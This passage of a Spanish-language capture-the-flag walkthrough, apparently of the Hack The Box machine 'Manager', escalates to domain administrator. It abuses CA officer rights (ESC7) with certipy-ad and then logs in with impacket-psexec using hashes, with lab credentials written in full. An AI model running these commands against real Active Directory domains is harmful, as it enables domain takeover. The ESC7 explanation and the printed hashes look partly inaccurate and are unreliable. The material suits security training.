1. **Delegación de privilegios en la emisión de certificados**: Si ciertos usuarios tienen permisos para emitir certificados para otros, un atacante podría abusar de estos privilegios para obtener permisos elevados.
2. **Mala configuración en las plantillas de certificados**: Configuraciones incorrectas en las plantillas de certificados podrían permitir que un atacante solicite un certificado en nombre de otro usuario, incluso uno con privilegios elevados.
3. **NTLM Relaying en HTTP**: Si el ADCS acepta autenticación NTLM en lugar de Kerberos, un atacante podría redirigir las solicitudes para ganar acceso.

### ESC7 exploitation case with certipy-ad

Al ejecutar este comando, Certipy escanea el entorno de AD buscando posibles configuraciones de ADCS que sean vulnerables a explotación. Esto puede incluir permisos indebidos, configuraciones débiles de plantillas de certificado, o cualquier ajuste que permita abuso de privilegios en el entorno de Active Directory. Localizamos que existe una vulnerabilidad **ESC7**.

La **vulnerabilidad ESC7** en ADCS permite que usuarios con pocos privilegios puedan obtener certificados que luego pueden usar para autenticarse como usuarios con más permisos. Esto ocurre porque ciertas plantillas de certificados están configuradas de forma insegura, permitiendo solicitudes de certificados que otorgan acceso elevado.

**En pocas palabras**: ESC7 permite a un atacante aprovechar plantillas mal configuradas para ganar privilegios y moverse en el dominio con más permisos de los que debería.

Para consultar cómo funciona **certipy-ad** y las diferentes vulnerabilidades existentes podemos revisar en la siguiente página -> [https://github.com/ly4k/Certipy?tab=readme-ov-file#certipy](https://github.com/ly4k/Certipy?tab=readme-ov-file#certipy)


```bash
certipy-ad find -u raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123' -dc-ip 10.10.11.236 -vulnerable -stdout
```


<figure><figcaption></figcaption></figure>

Primero, añadimos a **Raven** como **officer** en la autoridad de certificación `'manager-DC01-CA'`, lo que le da permisos para gestionar certificados. Luego, habilitamos la plantilla de certificados **SubCA**, permitiéndonos solicitar certificados basados en esa plantilla.

Solicitamos un certificado para **administrator@manager.htb** usando la plantilla **SubCA**, apuntando al Domain Controller `dc01.manager.htb`. Después, emitimos la solicitud de certificado con el comando correspondiente.

Finalmente, ejecutamos el comando para **recuperar** el certificado emitido con el ID **22**, lo que nos da el certificado solicitado y nos permite usarlo para autenticar como **administrator@manager.htb** o realizar otras acciones para escalar privilegios dentro del dominio.


```bash
certipy-ad ca -ca 'manager-DC01-CA' -add-officer Raven -username raven@manager.htb -password 'R4v3nBe5tD3veloP3r!123'

certipy-ad ca -ca 'manager-DC01-CA' -enable-template SubCA -username raven@manager.htb -password 'R4v3nBe5tD3veloP3r!123'

certipy-ad req -username raven@manager.htb -password 'R4v3nBe5tD3veloP3r!123' -ca manager-DC01-CA -target dc01.manager.htb -template SubCA -upn administrator@manager.htb

certipy-ad ca -ca 'manager-DC01-CA' -issue-request 22 -username raven@manager.htb -password 'R4v3nBe5tD3veloP3r!123'

certipy-ad req -username raven@manager.htb -password 'R4v3nBe5tD3veloP3r!123' -ca 'manager-DC01-CA' -target dc01.manager.htb -retrieve 22
```


<figure><figcaption></figcaption></figure>

Conprobaremos que se nos ha generado un archivo (administrator.pfx)

<figure><figcaption></figcaption></figure>

Con este comando autenticamos al usuario **administrator** usando un archivo de certificado **PFX** previamente obtenido, en este caso `'administrator.pfx'`. El archivo **PFX** contiene tanto el certificado como la clave privada, lo que nos permite autenticarnos como el usuario **administrator** en el dominio **manager.htb**.

Especificamos la dirección IP del Domain Controller (DC) con la opción **-dc-ip 10.10.11.236**, que es el servidor al que se conectará para realizar la autenticación.


```bash
certipy-ad auth -pfx 'administrator.pfx' -username 'administrator' -domain 'manager.htb' -dc-ip 10.10.11.236
```


<figure><figcaption></figcaption></figure>

Ejecutamos el comando **Impacket psexec** para ejecutar comandos remotamente en **10.10.11.236** como **administrator** del dominio **manager.htb**, usando los **NTLM hashes** en lugar de la contraseña. Esto nos permite autenticar como administrador sin necesidad de conocer la contraseña en texto claro y ejecutar tareas remotas con privilegios elevados.

Comprobamos la flag de **root.txt**


```bash
impacket-psexec manager.htb/administrator@10.10.11.236 -hashes aad3b435b51404eeaad3b435b51484ee:ae5064c2f62317332c88629e0259224ef
```


<figure><figcaption></figcaption></figure>
